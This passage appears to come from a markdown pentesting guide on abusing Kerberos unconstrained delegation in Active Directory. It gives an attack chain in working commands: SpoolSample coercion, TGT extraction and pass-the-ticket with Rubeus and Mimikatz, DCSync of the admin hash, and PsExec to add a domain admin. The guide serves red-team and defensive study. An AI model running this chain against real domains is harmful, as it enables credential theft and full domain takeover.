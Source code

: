 For 1. [@tifkin_'s](https://twitter.com/tifkin_) amazing [SpoolSample.exe](https://github.com/leechristensen/SpoolSample) (also known for being the exploit for "The PrinterBug") can be used to trick an arbitrary ComputerAccount (including the DC-Computer account) to authenticate against a chosen target machine:<br>
```powershell
.\SpoolSample.exe <PDC> <Target-Computer>
```

For 2. Easiest way to extract a TGT is by having local admin access to the targeted Computer, and then using either<br> 
- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe monitor`<br>
- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # sekurlsa::tickets /export`

The extracted TGT of the targeted principal (UserB) can then in turn be used to connect to arbitrary other services on behalf of the victim, UserB.

**An attack chain** could look as follows:<br>
Assume you found found a computer account (ComputerA$) is set with the TRUSTED_FOR_DELEGATION attribute:<br>

> - You managed to compromise ComputerA$<br>
> - You then use [SpoolSample.exe](https://github.com/leechristensen/SpoolSample) to force the Primary Domain Controller (computername: *PDC$*) to connect back to ComputerA$<br>
> - You then use Rubeus or mimikatz to extract the TGT of *PDC$*:<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe monitor`<br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # sekurlsa::tickets /export`
> - You can now import the TGT of *PDC$* into mimikatz or Rubeus<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): ```Rubeus.exe ptt /ticket:doIFODC<<SNIPP>>``` <br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `kerberos::ptt XXX@YYYY.kirbi` <br>
*(.kirbi files obtained via ```sekurlsa::tickets /export```)*<br>
> - After you imported the TGT of the *PDC$* into your current process you can use that to run a DCSync attack<br>
-- [Mimikatz](https://github.com/gentilkiwi/mimikatz): `mimikatz # lsadump::dcsync /domain:<DOMAIN.FQDN> /user:X`<br>
*X could be any user, e.g. the default (RID 500) admin of the DC, or the krbtgt user*<br>
> - Let's say you set the username (X) to be the default admin (RID 500) account for the *PDC$*<br>
This will return you the *PDC$*'s default admin's NTLM hash<br>
This NTLM hash can in turn be used to request a TGT of that default admin user<br>
-- [Rubeus](https://github.com/GhostPack/Rubeus): `Rubeus.exe asktgt /user:DA01 /rc4:<NTLM-Hash-From-RID-500-Admin> /ptt`<br>
In this command you not only requested the TGT, but also included it in you current process with the **/ptt**-flag<br>
Now that you included the *PDC$* default admin's TGT in your current process, you're basically that user now (within this process).<br>
You can now use your new user access for example by using [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) to add a new user to the local admin group on the *PDC$*<br>
- `C:\> PsExec.exe \\PDC$.FQDN localgroup Administrators <DOMAIN>\<YourUser> /add`<br>



## Constrained Delegation (S4U2Proxy)

Constrained Delegation allows a server to impersonate a client against defined, specified service(s).
Server and client are conceptual terms to stress the idea of delegation, read this as the server being a User account and the client being some other user account.
